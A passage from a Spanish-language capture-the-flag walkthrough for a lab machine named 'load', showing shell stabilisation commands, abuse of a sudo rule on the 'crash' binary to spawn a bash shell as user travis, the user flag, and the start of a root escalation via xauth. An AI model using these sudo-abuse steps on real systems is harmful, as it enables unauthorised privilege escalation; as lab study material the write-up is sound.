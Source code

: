 ```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user travis

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on load:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on load:
    (travis) NOPASSWD: /usr/bin/crash
```

Veremos que podremos ejecutar el binario `crash` como el usuario `travis` por lo que haremos lo siguiente:

```shell
sudo -u travis crash -h
!bash
```

Info:

```
travis@load:/var/www$ whoami
travis
```

Con esto veremos que seremos dicho usuario, antes vamos a leer la `flag` del usuario.

> user.txt

```
c08d9e59eb1252c60bf2ec2fd73c87f1
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for travis on load:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User travis may run the following commands on load:
    (root) NOPASSWD: /usr/bin/xauth
```
